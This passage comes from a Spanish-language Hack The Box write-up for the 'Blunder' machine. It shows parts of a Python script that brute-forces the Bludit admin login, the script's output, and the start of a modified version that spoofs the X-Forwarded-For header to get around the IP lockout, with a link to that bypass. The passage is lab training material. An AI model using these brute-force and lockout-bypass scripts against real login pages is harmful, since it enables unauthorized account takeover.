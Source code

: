 ```python
        if "Username or password incorrect" not in r.text:
            p1.success("La contraseña es %s" % password)
            sys.exit(0)

if __name__=='__main__':

    makeRequests()
```

Ejecutamos el exploit y despues de unos segundos nos valida que la contraseña es: `King`

```bash
❯ python3 prueba.py
[+] Fuerza Bruta: La contraseña es King
```

Probamos a logearnos en el servicio y vemos que las credenciales son incorrectas, ademas vemos un mensaje que nos dice que nuestra ip fue bloqueada.

![](/assets/images/HTB/htb-writeup-Blunder/blunder8.PNG)


Investigando un poco vemos que existe una forma de bypasear el uso de fuerza bruta en `Bludit`, atraves de la cabezera `X-Forwarded-For`.

* [https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)


Modificamos nuestro exploit y añadismos la cabezera `X-Forwarded-For`, con el valor de nuestra variable `password`, aprovechando que este por cada iteración sera aleatorio,

```python
#!/usr/bin/python3

from pwn import *
import requests, re


def def_handler(sig, frame):
    print("\n[!]Saliendo...!\n")
    sys.exit(1)

#ctrl_c
signal.signal(signal.SIGINT, def_handler)
#variables_globales
main_url = "http://10.10.10.191/admin/"

```